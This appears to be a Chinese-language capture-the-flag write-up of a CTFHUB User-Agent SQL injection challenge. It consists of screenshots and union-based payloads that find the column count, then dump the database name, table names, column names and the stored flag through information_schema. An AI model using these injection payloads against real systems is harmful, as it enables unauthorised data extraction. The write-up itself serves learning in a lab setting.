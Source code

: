 ### User-Agent 注入

话不多说，直接上题（CTFHUB）

![](https://pic1.imgdb.cn/item/687b84ff58cb8da5c8c72fcf.png)

提示 UA 注入

![](https://pic1.imgdb.cn/item/687b87c158cb8da5c8c73147.png)

抓包改为 1 有回显

![](https://pic1.imgdb.cn/item/687b8a0c58cb8da5c8c73270.png)

测列数，3 没回显所以只有两列

```sql
1 order by 2#
```

![](https://pic1.imgdb.cn/item/687b8a4e58cb8da5c8c7328e.png)

爆数据库

```sql
-1 union select 1,database()#
```

![](https://pic1.imgdb.cn/item/687b8a9c58cb8da5c8c732ab.png)

爆表

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'sqli'#
```

![](https://pic1.imgdb.cn/item/687b8ae958cb8da5c8c732c0.png)

爆字段

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name = 'gopuwbgusp'#
```

![](https://pic1.imgdb.cn/item/687b8b6358cb8da5c8c732c7.png)

爆值

```sql
-1 union select 1,group_concat(skjtcuyodd) from gopuwbgusp#
```

![](https://pic1.imgdb.cn/item/687b8b8e58cb8da5c8c732d0.png)

